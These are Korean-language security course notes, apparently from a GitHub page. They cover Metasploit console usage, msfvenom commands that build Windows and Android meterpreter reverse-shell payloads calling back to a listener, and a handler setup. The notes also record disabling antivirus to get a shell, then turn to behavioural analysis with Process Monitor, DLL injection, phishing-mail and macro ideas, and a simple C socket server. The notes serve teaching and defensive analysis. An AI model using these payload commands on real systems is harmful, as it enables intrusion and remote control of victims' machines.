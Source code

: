# DAY 2

## 공격자 공격 방법 종류
  - EXE 파일
    1. 악성코드 생성도구(metasploit): 서버 백신 //서버백식은 악성코드 못잡은 경우 O
    2. DLL Injection
  - URL
  - MACRO
  - 웹 취약점
  - 모바일

## metasploit
### command
```
service postgresql start
service metasploit start
msfconsole
```
실행 안 될 경우
find /usr -name dalvik.rb -print <- 설정 파일 검색
마지막 줄 cert.not_after = cert.not_before + 3600 * 24 * 365 * 20
20 -> 2로 변경 후 저장

### command
```
search (search adobe)
use (exploit/linux/browser/adobe_flashplayer_aslaunch)
use windows/meterpreter/reverse_tcp //특정 공간 선택할 수 있음
back (cancel)
show options
set lhost 10.10.10.10
exploit //공격,      +encoders: 특정 기호로 변경
shellcode
bind (->, inbound)
reverse (<-, outbound)
```

#### senario
```
공격자가 피해자의 연결을 대기한다.
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lport 7070
set lhost 10.0.2.15
exploit
```

#### 악성코드 생성
커널에서
```
msfvenom -l payloads
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
c)
(msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
apk)
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.100.244.20 lport=7070 -f
exe > mytext.exe
```
#### 공유폴더/파일전송
이더넷 인터페이스 통신으로 전송
```
file system/media/sf_폴더명
```
> mytext.exe 옮기니 알약이 감지함
> 백신 끄고 실행하니 쉘 따짐


### AI보안2일(5)
```
process Explorer, Process Monitior, Strings 설치 필요
```
process Explorer에서 
> mytest.exe를 실행하면(셀을 실행하면) cmd.exe -> conhost.exe 순서로 실행됨(이 두 개의 패턴이 반드시 나온다)

Process Monitior에서 Operation부분 보면
> Process Start: 프로세스 시작
> RegRegister, RegQuery: 레지스트리에서 환경 설정하는 값을 읽거나 썼다.
> TCP Conect: 통신 프로그램에서 클라이언트가 쓰는 명령어! -> 따라서 클라이언트임을 알 수 있음
Process Monitior에서 Detail-Event부분 보면
> path: 발신자의ip:6125-> 수신자의ip:7070 //1) 왼쪽에서 7070포트로 들어갔다, 2) 발신자와 수신자의 ip 모두 확인 가능
Detail-Process부분의 Modules 보면
> mswsock.dll, wsock32.dll : 통신 관련된 기능, 소켓!
Detail-Stack 보면 메모리 주소나 어떤 dll 썼는가 같은 정보 볼 수 있음
**Process Monitior에서 TCP copy, TCP receive 같은게 있는데 더블 클릭해서 Event Properties-> Stack에서 뭘 했는지 알아야 함!!
**
이제 이것을 보고 분석하면 행위가 됨!(행위 분석)
아까 백신이 잡은 것은 signiture -> 단순 문자열에 대한 분석이 었음

Process Monitior의 행위의 결과값 분석하는 법
> csv 파일로 저장
> csv 파일은 ,로 구분되는데 detail 내용 안에 ,가 들어있기 때문에 , 제거해야함 -> 1. 고정되지 않은 수의 ',' 제거하는 프로그램 개발 필요
> 2. 로그의 양이 많기 때문에 DB에 적재해야함!
> RegOPenKey, RegQueryValue, RegCloseKey -> 3개가 세트! : 목적) 레지스트리를 읽는다
>   이것을 변환 처리 해야하는데 위와 같이 둘 건지 RegRead 하나 두고 레지스트리를 읽었습니다 -> RegRead 1로 표현할 건지 결정해야함

> CreateFile 부분에서 dll 파일 생성한다는 부분 있는데 dll은 이미 있기 때문에 말이 안됨
> Detail 부분 보면 Read Attribute, Open -> 결론적으로 dll을 읽었다!는 뜻 => Create File이 아니라 Read File로 이름 바꾸는게 정확
> => EDR, APT 솔루션 이미 있음

#### 결론(해야 할 것)
- 행위분석 수집 로그 프로그램 개발 //프로세스 모니터 자체를 개발 해야함
- 전처리 프로그램 개발(A ->1, NULL, 이상치) 
- 데이터분석

* 메모리, 시그니처 분석
ex. process Explorer와 메모장
process Explore에서 메모장 우클릭->properties
  - 통신 안하니깐 TCP 부분 비어 있음
  - Thread 부분 켜놓고, 메모징 저장 누르면 이 과정 Thread 부분에 동적으로 추가됨 
      -> 윈도우는 동적으로 동작하기 때문에 내가 실행할 때 dll 임의로 추가할 수 있음 => DLL Injection
  
#### 악성코드 메일 공격 방식
> 메일 자동 전송 1:다 공격 가능
> 수신확인 - 스크립트(html)
> 파이썬 코드로 메일 전송 가능(mime)

#### 워드 매크로(CDR?)
passwordchecker procexp에서 full dump 후 strings로 분석
strings PasswordChecker.dmp > a.txt
비밀번호, 메세지 등 문자열로 저장되어 있음
활용 ex
> c소켓 프로그래밍 <- 서버
> 워드 매크로 <- 클라이언트
> 악성 메일 보내서 클릭 여부 확인 가능

주체: 행위, 메모리, 실행파일
환경: 얘도 알아야



![day2_2](https://user-images.githubusercontent.com/50771111/88466051-756ab380-cf03-11ea-972a-a8c19b88ad2f.jpg)



### 서버
#### test123.c //server.c
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <arpa/inet.h>
#include <sys/types.h>
#include <sys/socket.h>

#define  BUFF_SIZE   1024

int   main( void)
{
   int   server_socket;
   int   client_socket;
   int   client_addr_size;
   struct sockaddr_in   server_addr;
   struct sockaddr_in   client_addr;
   char   buff_rcv[BUFF_SIZE+5];
  server_socket  = socket( PF_INET, SOCK_STREAM, 0); //소켓 만듦
   memset( &server_addr, 0, sizeof( server_addr));
   server_addr.sin_family     = AF_INET; //인터넷
   server_addr.sin_port       = htons(7070); //포트 7070 -> 서버
   server_addr.sin_addr.s_addr= htonl( INADDR_ANY); //0.0.0.0 누구나 연결할 수 있음
bind( server_socket, (struct sockaddr*)&server_addr, sizeof( server_addr)); //위에서 세팅한 값 적용(bind)
listen(server_socket, 5); //최대 5명까지 붙을 수 있음
client_socket     = accept( server_socket, (struct sockaddr*)&client_addr, &client_addr_size); //accept : 기다리는 중
      read ( client_socket, buff_rcv, BUFF_SIZE);
      printf( "receive: %s\n", buff_rcv);
 close( client_socket);
 close(server_socket);
}
```

